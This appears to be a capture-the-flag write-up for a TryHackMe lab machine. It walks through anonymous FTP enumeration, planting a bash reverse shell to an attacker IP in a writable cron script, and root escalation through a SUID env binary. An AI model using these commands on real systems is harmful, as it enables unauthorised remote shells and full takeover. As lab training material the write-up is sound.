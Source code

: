 ```yaml
---
layout: post
title: "Anonymous"
date: 2022-04-24
categories: [Tryhackme, Medium-THM]
tags: [security, linux, permissions, medium]
image: ../../assets/img/posts/Anonymous.png 

---
```


## Description

Penetration Testing Challenge.

|**Room**|[Internal](https://tryhackme.com/room/anonymous)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Medium|
|**Creator**|[Nameless0ne](https://tryhackme.com/p/Nameless0ne)|

---

After deploying the machine, we'll get started with nmap scan,

```bash
sudo nmap -A -T4 -p- 10.10.180.242 -oN nmap_scan
```

![image](https://user-images.githubusercontent.com/67465230/164978442-e34ed3d4-d71a-42d6-96ee-bdb0c8f10250.png)

We found that open ports are 21 (FTP), 22 (SSH), 139,445 (SMB). With nmap scan result we know that we can login via FTP as anonymous user. So let's enumerate.

Connecting to ftp service via anonymous user,

```bash
ftp 10.10.180.242
```

We got successfully connected to machine via ftp. Now enumerating it,

![image](https://user-images.githubusercontent.com/67465230/164978450-50014b5d-f001-4c2c-9d95-5812ebc1be55.png)

we found directory called **scripts** and navigating to scripts,

![image](https://user-images.githubusercontent.com/67465230/164978680-f9336146-2196-4aa7-a2f4-da0d232d27da.png)

there we found 3 files, so we'll now download them to our local system.

using **get** command to download these files on our system.

![image](https://user-images.githubusercontent.com/67465230/164978453-8b31288d-38f5-4953-a868-948caeec3fb3.png)

Now that we've these 3 files on our local system, let's look inside what is their in these files,

```bash
cat to_do.txt
```

![image](https://user-images.githubusercontent.com/67465230/164978454-eaec24d5-a6c5-4484-9205-d931d424b800.png)

It's a normal text. Doesn't gonna help us much.

seeing the content of next file,

```bash
cat clean.sh
```

![image](https://user-images.githubusercontent.com/67465230/164978458-3a4c7de9-1bcd-4e4d-b5e1-5cd5e14609f9.png)

after looking at this, this reminds me **CronJobs**. Let's break down this script,
- the variable “tmp_files” is set as 0.
- In if check, the script checks whether value of tmp_files is equal to 0. If so, it echoes a message like: “Running cleanup script: nothing to delete” into “removed_files.log” file. Now that’s interesting. Because; if we look on the removed_files.log file, maybe we can get some valuable information.
- Lastly, in else condition, if the value of tmp_files is other than 0, it removes the file and prints another message.

Now, let's inspect removed_files.log file

```bash
cat removed_files.log
```

![image](https://user-images.githubusercontent.com/67465230/164978463-225b14c4-0378-434a-9204-7c2949e1c8f6.png)

We'll that's wasnt helpful at all. From further enumeration, we got that the **clean.sh** file is writable. So, if we put reverse shell (bash) on FTP, it'll get executed by cronjobs and we'll get the shell.

So let's edit the script, we'll put one liner bash reverse shell in this script including our listening IP and desired port,

```bash
bash -c 'exec bash -i &>/dev/tcp/10.9.189.151/4444 <&1'
```

![image](https://user-images.githubusercontent.com/67465230/164978464-6626fd67-d781-415e-9c8b-7251407bb969.png)

Now, we'll put this script into machine via FTP using **put** command.

```bash
put clean.sh clean.sh
```

![image](https://user-images.githubusercontent.com/67465230/164978467-a8ad4caa-9239-4ef0-9ddd-685f278747fc.png)

the first clean.sh represents the file which I've created in our local system and second file clean.sh represents the file already present on the ftp server. When this command gets executed, the file which we've created will modify the file which is already present. Now, we'll setup netcat listener on port 4444, and after waiting sometime, we'll get connection to machine on netcat.

![image](https://user-images.githubusercontent.com/67465230/164978469-af2c1b9b-8a55-454f-8ab8-5bde3e953919.png)

we are **namelessone** user. Let's look for user flag. 

Doing **ls** to establish all the files present in directory and we got our user flag,

![image](https://user-images.githubusercontent.com/67465230/164978471-7d46f3d7-cc56-440d-90be-a7c6c8534e5d.png)

Now, it's time for privilege escalation. We'll start it with searching for binaries which we can run with **sudo** command to elevate privilege.

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/164978474-5fd28d1a-563e-44ae-bcee-b48173b3098f.png)

Since we can't find any binaries so now we'll find those binaries which has SUID bit set on them so we can abuse them to get system shell.

```bash
find / -type f -perm -04000 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/164978479-da4a883f-16b9-4ee4-99c4-8b5469960555.png)

We can see that there's a binary which has SUID bit set on it. So I tried to check this **env** on infamous helper GTFOBins https://gtfobins.github.io, and I found something which will help us to get system shell by abusing SUID.

![image](https://user-images.githubusercontent.com/67465230/164978482-1c6ddfd3-5df1-4e93-b148-f9e35bada294.png)

So when we run this command, this will get us system shell. Now, we'll do it as it says.

```bash
/usr/bin/env /bin/sh -p
```

![image](https://user-images.githubusercontent.com/67465230/164978485-5796e7c8-5bae-424c-bfa9-5c9c72c17441.png)

and we got system shell. Now, we can look for root flag.